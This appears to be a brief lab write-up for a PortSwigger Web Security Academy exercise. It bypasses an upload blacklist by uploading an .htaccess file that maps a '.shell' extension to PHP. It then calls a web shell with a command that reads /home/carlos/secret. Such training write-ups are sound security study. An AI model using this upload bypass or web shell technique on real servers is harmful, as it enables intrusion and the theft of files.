 Title: Web shell upload via extension blacklist bypass
Level: Practitioner
Desc:  This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.
To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter 


![image](https://github.com/user-attachments/assets/b5235b16-36a6-482e-9863-5a9bbd626566)


![image](https://github.com/user-attachments/assets/da1c0f82-12a3-4fbf-a053-517159eb6c64)

attack url: `https://0ae000f603694bde80ab2b5c001700a8.web-security-academy.net/files/avatars/webshell.php5`

Still not executable

We know, that we have Apache web server - through the headers from responses.
So we try to upload htaccess file:
![image](https://github.com/user-attachments/assets/fe428e45-6f69-4633-b6bc-983e93895217)

![image](https://github.com/user-attachments/assets/d270429d-226e-44ca-a177-95d2b22627c7)

Attack URL: `https://0ae000f603694bde80ab2b5c001700a8.web-security-academy.net/files/avatars/webshell.shell?cmd=cat+/home/carlos/secret`

A little bit of explanation from tutorial (solution)
`AddType application/x-httpd-php .shell` maps an arbitrary extension (.shell) to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already.
Thanks to our malicious .htaccess file, the .shell file was executed as if it were a .php file. 


